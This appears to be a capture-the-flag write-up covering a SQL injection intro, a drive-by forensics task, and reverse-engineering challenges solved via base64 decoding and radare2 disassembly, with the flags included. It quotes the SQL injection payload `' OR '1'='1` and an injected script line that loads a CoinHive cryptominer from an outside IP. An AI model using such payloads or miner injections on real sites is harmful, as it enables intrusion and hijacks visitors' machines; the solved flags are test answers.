 # Web
## Not Another SQLi Challenge
This challenge is meant to be an introduction to sql injection. For more information read the page on  
[SQL injection](https://en.wikipedia.org/wiki/SQL_injection)

`' OR '1'='1`


`gigem{f4rm3r5_f4rm3r5_w3'r3_4ll_r16h7}!`

# DriveByInc
## 0_intrusion
Welcome to Drive By Inc. We provide all sorts of logistical solutions for our customers. Over the past few years we moved to hosting a large portion of our business on a nice looking website. Recently our customers are complaining that the front page of our website is causing their computers to run extremely slowly. We hope that it is just because we added too much javascript but can you take a look for us just to make sure?

What is the full malicious line? (Including any HTML tags)
```<script src = http://10.187.195.95/js/colorbox.min.js></script><script>var color = new CoinHive.Anonymous("123456-asdfgh");color.start()</script></body>```

# 0_intrusion
## 0_intrusion
```
Use wireshark to filter the packets by length
The ip recieving the largest packets and suspected to be malware was 10.91.9.93
```


# Reverse Engineering
## Cheesy
Running file we can see that it is a ELF 64-bit LSB executable, dynamically linked
```file reversing1
reversing1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a0d672b744b45bdc3f634cf144d1ae3f2a0f4509, not stripped
```
To get a better understanding of this program lets see what it does
```
QUFBQUFBQUFBQUFBQUFBQQ==
Hello! I bet you are looking for the flag..
I really like basic encoding.. can you tell what kind I used??
RkxBR2ZsYWdGTEFHZmxhZ0ZMQUdmbGFn
Q2FuIHlvdSByZWNvZ25pemUgYmFzZTY0Pz8=
RkxBR2ZsYWdGTEFHZmxhZ0ZMQUdmbGFn
WW91IGp1c3QgbWlzc2VkIHRoZSBmbGFn
```
Okay, we're given some different numbers in base64 encoding, let's try to see what these are...
```
echo "QUFBQUFBQUFBQUFBQUFBQQ==" | base64 -d
AAAAAAAAAAAAAAAA
echo "RkxBR2ZsYWdGTEFHZmxhZ0ZMQUdmbGFn" | base64 -d
FLAGflagFLAGflagFLAGflag
echo "Q2FuIHlvdSByZWNvZ25pemUgYmFzZTY0Pz8=" | base64 -d
Can you recognize base64??
echo "WW91IGp1c3QgbWlzc2VkIHRoZSBmbGFn" | base64 -d
You just missed the flag
```
So this challenge requires more than just being able to convert from base64, let's open it up in radare2

```
r2 reversing1
 -- No such file or directory.
[0x004009a0]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[Invalid instruction of 1010 bytes at 0x400238
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Enable constraint types analysis for variables
[0x004009a0]> pdf @ sym.main
            ;-- main:
/ (fcn) sym.main 215
|   sym.main (int argc, char **argv, char **envp);
|           ; var int local_41h @ rbp-0x41
|           ; var int local_40h @ rbp-0x40
|           ; var int local_18h @ rbp-0x18
|           ; DATA XREF from entry0 (0x4009bd)
|           0x00400a96      55             push rbp
|           0x00400a97      4889e5         mov rbp, rsp
|           0x00400a9a      53             push rbx
|           0x00400a9b      4883ec48       sub rsp, 0x48               ; 'H'
|           0x00400a9f      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
|           0x00400aa8      488945e8       mov qword [local_18h], rax
|           0x00400aac      31c0           xor eax, eax
|           0x00400aae      be880c4000     mov esi, str.QUFBQUFBQUFBQUFBQUFBQQ ; 0x400c88 ; "QUFBQUFBQUFBQUFBQUFBQQ==\n"
|           0x00400ab3      bfa0206000     mov edi, obj._ZSt4cout__GLIBCXX_3.4 ; 0x6020a0
|           0x00400ab8      e853feffff     call sym.std::basic_ostream_char_std::char_traits_char___std::operator___std::char_traits_char___std::basic_ostream_char_std::char_traits_char____charconst
|           0x00400abd      bea80c4000     mov esi, str.Hello__I_bet_you_are_looking_for_the_flag.. ; 0x400ca8 ; "Hello! I bet you are looking for the flag..\n"
|           0x00400ac2      bfa0206000     mov edi, obj._ZSt4cout__GLIBCXX_3.4 ; 0x6020a0
|           0x00400ac7      e844feffff     call sym.std::basic_ostream_char_std::char_traits_char___std::operator___std::char_traits_char___std::basic_ostream_char_std::char_traits_char____charconst
|           0x00400acc      bed80c4000     mov esi, str.I_really_like_basic_encoding.._can_you_tell_what_kind_I_used ; 0x400cd8 ; "I really like basic encoding.. can you tell what kind I used??\n"
|           0x00400ad1      bfa0206000     mov edi, obj._ZSt4cout__GLIBCXX_3.4 ; 0x6020a0
|           0x00400ad6      e835feffff     call sym.std::basic_ostream_char_std::char_traits_char___std::operator___std::char_traits_char___std::basic_ostream_char_std::char_traits_char____charconst
|           0x00400adb      be180d4000     mov esi, str.RkxBR2ZsYWdGTEFHZmxhZ0ZMQUdmbGFn ; 0x400d18 ; "RkxBR2ZsYWdGTEFHZmxhZ0ZMQUdmbGFn\n"
|           0x00400ae0      bfa0206000     mov edi, obj._ZSt4cout__GLIBCXX_3.4 ; 0x6020a0
|           0x00400ae5      e826feffff     call sym.std::basic_ostream_char_std::char_traits_char___std::operator___std::char_traits_char___std::basic_ostream_char_std::char_traits_char____charconst
|           0x00400aea      be400d4000     mov esi, str.Q2FuIHlvdSByZWNvZ25pemUgYmFzZTY0Pz8 ; 0x400d40 ; "Q2FuIHlvdSByZWNvZ25pemUgYmFzZTY0Pz8=\n"
|           0x00400aef      bfa0206000     mov edi, obj._ZSt4cout__GLIBCXX_3.4 ; 0x6020a0
|           0x00400af4      e817feffff     call sym.std::basic_ostream_char_std::char_traits_char___std::operator___std::char_traits_char___std::basic_ostream_char_std::char_traits_char____charconst
|           0x00400af9      be180d4000     mov esi, str.RkxBR2ZsYWdGTEFHZmxhZ0ZMQUdmbGFn ; 0x400d18 ; "RkxBR2ZsYWdGTEFHZmxhZ0ZMQUdmbGFn\n"
|           0x00400afe      bfa0206000     mov edi, obj._ZSt4cout__GLIBCXX_3.4 ; 0x6020a0
|           0x00400b03      e808feffff     call sym.std::basic_ostream_char_std::char_traits_char___std::operator___std::char_traits_char___std::basic_ostream_char_std::char_traits_char____charconst
|           0x00400b08      488d45bf       lea rax, [local_41h]
|           0x00400b0c      4889c7         mov rdi, rax
|           0x00400b0f      e84cfeffff     call sym.std::allocator_char_::allocator
|           0x00400b14      488d55bf       lea rdx, [local_41h]
|           0x00400b18      488d45c0       lea rax, [local_40h]
|           0x00400b1c      be680d4000     mov esi, str.Z2lnZW17M2E1eV9SM3YzcjUxTjYhfQ ; 0x400d68 ; "Z2lnZW17M2E1eV9SM3YzcjUxTjYhfQ==\n"
|           0x00400b21      4889c7         mov rdi, rax
|           0x00400b24      e827feffff     call sym.std::__cxx11::basic_string_char_std::char_traits_char__std::allocator_char__::basic_string_charconst__std::allocator_char_const
|           0x00400b29      488d45bf       lea rax, [local_41h]
|           0x00400b2d      4889c7         mov rdi, rax
|           0x00400b30      e80bfeffff     call sym.std::allocator_char_::_allocator
|           0x00400b35      be900d4000     mov esi, str.WW91IGp1c3QgbWlzc2VkIHRoZSBmbGFn ; 0x400d90 ; "WW91IGp1c3QgbWlzc2VkIHRoZSBmbGFn\n"
|           0x00400b3a      bfa0206000     mov edi, obj._ZSt4cout__GLIBCXX_3.4 ; 0x6020a0
|           0x00400b3f      e8ccfdffff     call sym.std::basic_ostream_char_std::char_traits_char___std::operator___std::char_traits_char___std::basic_ostream_char_std::char_traits_char____charconst
|           0x00400b44      bb00000000     mov ebx, 0
|           0x00400b49      488d45c0       lea rax, [local_40h]
|           0x00400b4d      4889c7         mov rdi, rax
|           0x00400b50      e8cbfdffff     call sym.std::__cxx11::basic_string_char_std::char_traits_char__std::allocator_char__::_basic_string
|           0x00400b55      89d8           mov eax, ebx
|           0x00400b57      488b4de8       mov rcx, qword [local_18h]
|           0x00400b5b      6448330c2528.  xor rcx, qword fs:[0x28]
|       ,=< 0x00400b64      743b           je 0x400ba1
\      ,==< 0x00400b66      eb34           jmp loc.00400b9c
```
We can see that this is an ELF binary written in C++. We can see where all the system calls are made that output the base64 encoded strings. There's also some base64 that isn't being written to standard output.
```
echo "Z2lnZW17M2E1eV9SM3YzcjUxTjYhfQ==" | base64 -d
gigem{3a5y_R3v3r51N6!}
```

# 042
By examing this assembly code, the values being moved into the registers look like ascii.
```
	movb	$65, -16(%rbp) ## A
	movb	$53, -15(%rbp) ## 5
	movb	$53, -14(%rbp) ## 5
	movb	$51, -13(%rbp) ## 3
	movb	$77, -12(%rbp) ## M
	movb	$98, -11(%rbp) ## b 
	movb	$49, -10(%rbp) ## 1
	movb	$89, -9(%rbp)  ## Y
	movl	$0, -28(%rbp)  ## 0
	movl	$1, -32(%rbp)  ## 1
	movl	$2, -36(%rbp)  ## 2
```